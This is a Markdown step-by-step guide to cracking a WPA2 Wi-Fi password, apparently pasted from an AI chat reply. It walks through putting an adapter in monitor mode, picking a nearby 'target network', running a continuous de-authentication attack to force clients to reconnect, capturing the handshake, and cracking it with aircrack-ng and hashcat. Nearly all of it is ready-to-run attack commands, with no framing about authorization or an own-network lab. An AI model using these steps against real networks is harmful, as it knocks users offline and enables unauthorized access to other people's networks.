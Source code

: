 ```yaml
---

# Wireless Access Point Cracking

## Objective
To capture and decrypt a Wi-Fi access point’s password by capturing and cracking a WPA2 handshake.

## Skills Learned
- Network sniffing
- De-authentication attacks
- Password cracking
- Using Wi-Fi hacking tools (airodump-ng, aireplay-ng, aircrack-ng, hashcat)

## Tools Needed
- **Kali Linux** (or any Linux distro with Wi-Fi hacking tools)
- **Wireless Network Adapter** with monitor mode capability

## Steps

---
```


### 1. Enable Monitor Mode

Monitor mode is essential for capturing packets without needing to connect to a network.

#### 1.1 Identify your wireless card:
```bash
ifconfig
iwconfig
```

#### 1.2 Enable Monitor Mode:
```bash
sudo ifconfig <interface> down
sudo iwconfig <interface> mode monitor
sudo ifconfig <interface> up
```

#### 1.3 If you encounter issues, use `airmon-ng`:
```bash
sudo airmon-ng start <interface>
```

#### 1.4 Kill interfering processes if needed:
```bash
sudo airmon-ng check kill
```

#### 1.5 Verify monitor mode is enabled:
```bash
iwconfig
```

---

### 2. Discover Networks

With your wireless card in monitor mode, it’s time to capture network traffic.

#### 2.1 Scan for all nearby networks:
```bash
airodump-ng <interface>
```
This shows a list of networks and details like BSSID (MAC address) and channel.

#### 2.2 Choose your target network. Note down its BSSID and channel.

#### 2.3 Target one access point:
```bash
airodump-ng -c <channel> --bssid <BSSID> -w <output_file> <interface>
```
- Replace `<channel>` with the target’s channel and `<BSSID>` with the network’s BSSID.
- `<output_file>` is the name of the file to save captured data.

---

### 3. Perform a De-authentication Attack

The purpose here is to disconnect clients so that, upon reconnection, we can capture the four-way handshake.

#### 3.1 De-authenticate clients on the target network:
```bash
aireplay-ng -0 0 -a <BSSID> <interface>
```
- The `-0 0` flag will send deauthentication packets continuously until stopped.

#### 3.2 Stop de-authentication after a few seconds (Ctrl + C) to allow clients to reconnect.

---

### 4. Capture the Four-Way Handshake

To successfully crack the password, we need to capture the handshake, which occurs when a device reconnects to the network.

#### 4.1 Continue running `airodump-ng` (Step 2.3) to monitor the network and capture the handshake.

#### 4.2 Wait for a handshake notification in the airodump-ng window.

#### 4.3 Stop airodump-ng once the handshake is captured (Ctrl + C).

#### 4.4 You’ll see multiple files created with the prefix `<output_file>`. The file ending in `.cap` contains the captured handshake.

---

### 5. Cracking the Password Hash

With the `.cap` file, we can now attempt to crack the password using a brute-force attack with a wordlist.

---

#### 5.1 Prepare the RockYou Wordlist

Kali Linux comes with the large **rockyou.txt** wordlist, which contains over 10 million common passwords.

1. Locate rockyou.txt:
   ```bash
   locate rockyou.txt
   ```
   It should be located at `/usr/share/wordlists/rockyou.txt.gz`.

2. Copy and unzip rockyou.txt (optional):
   ```bash
   cp /usr/share/wordlists/rockyou.txt.gz ~/Desktop
   gzip -d ~/Desktop/rockyou.txt.gz
   ```

---

#### 5.2 Crack the Password with Aircrack-ng

1. Run aircrack-ng using the `.cap` file and rockyou.txt wordlist:
   ```bash
   aircrack-ng -w ~/Desktop/rockyou.txt -b <target_BSSID> <path_to_capture.cap>
   ```
   - Replace `<target_BSSID>` with the target’s BSSID.
   - Replace `<path_to_capture.cap>` with the path to your `.cap` file.

2. Monitor the cracking progress:
   - **Current phrase:** Password currently being tested.
   - **Progress:** Percent of the wordlist checked.
   - **Speed:** Passwords tested per second.
   - **Time left:** Estimated time remaining to test all passwords.

---

#### 5.3 Crack the Password with Hashcat

To crack the password faster, we can use `hashcat`. First, we need to convert the `.cap` file to the `.hccapx` format.

1. **Convert `.cap` to `.hccapx`:**
   - Go to an online converter like [https://hashcat.net/cap2hccapx/](https://hashcat.net/cap2hccapx/).
   - Upload your `.cap` file, convert it, and download the resulting `.hccapx` file.

2. **Run Hashcat**:
   ```bash
   hashcat -a 0 -m 2500 <path_to_hccapx_file> ~/Desktop/rockyou.txt
   ```
   - `-a 0` specifies a dictionary attack mode.
   - `-m 2500` is the hash type for WPA/WPA2.
   - Replace `<path_to_hccapx_file>` with the path to your `.hccapx` file.
   - `~/Desktop/rockyou.txt` is your wordlist.

3. **Monitor Hashcat Output**:
   - Type `s` to check status, speed, and progress.
   - Hashcat may run much faster than Aircrack-ng, especially with GPU acceleration.

4. **Check the Results**:
   - If successful, Hashcat will display the cracked password.
   - You can also see the **hash type** and **speed**. Hashcat often cracks passwords faster than Aircrack-ng, especially with GPU processing.

---

## Final Result

Once the correct password is found, `hashcat` will stop and display it.

> **Note:** The speed of cracking depends on factors such as wordlist size, processor power, and GPU use.

--- 

This should work well for GitHub! Let me know if you need further adjustments.





 
